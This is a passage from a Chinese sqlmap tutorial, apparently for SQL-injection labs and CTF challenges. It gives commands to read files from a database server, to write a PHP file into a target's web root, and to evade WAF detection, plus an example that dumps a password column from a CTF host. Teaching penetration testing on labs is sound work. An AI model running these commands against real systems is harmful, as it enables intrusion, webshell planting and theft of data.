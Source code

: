 
**–file-read:从数据库服务器中读取文件**

```
sqlmap -u "http://xxx/sqli/Less-4/?id=1" --file-read "c:/test.txt"
```

**上传文件到数据库服务器中(—file-write —file-dest**

但我们必须知道目标服务器的绝对路径，如：

```
sqlmap -u http://xxx/sqli-labs/Less-2/?id=1  --file-write C:\Users\mi\Desktop\1.php --file-dest "C:\phpStudy\PHPTutorial\WWW\2.php" 
```

## 绕waf

当然这只是最基础的注入方式，很容易被waf检测到，为了增加隐蔽性，我们可以增加其他参数规避风险：

```
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

除此之外还有：

```
使用--user-agent 指定agent
使用--referer 绕过referer检查
使用--method 调整sqlmap的请求方式 如PUT
使用--cookie 提交cookie数据
```

比如例子：

```
sqlmap -u http://01c7d214-3aa8-43db-be16-b210d02ac965.challenge.ctf.show/api/index.php  --cookie=3089874dc14bcc794d70b21cdd8bb544  --method=PUT --headers="Content-Type: text/plain" --data="id=1" --refer=ctf.show --current-db --tables -T ctfshow_user --columns  -C pass -dump
```

sqlmap还有有探测等级和危险等级(—level —risk)的设置：
sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5。

sqlmap一共有3个危险等级，也就是说你认为这个网站存在几级的危险等级。和探测等级一个意思，在不确定的情况下，建议设置为3级

比如：

```
sqlmap -u "http://xxx:7777/Less-1/" --level=5 --risk=3 
```
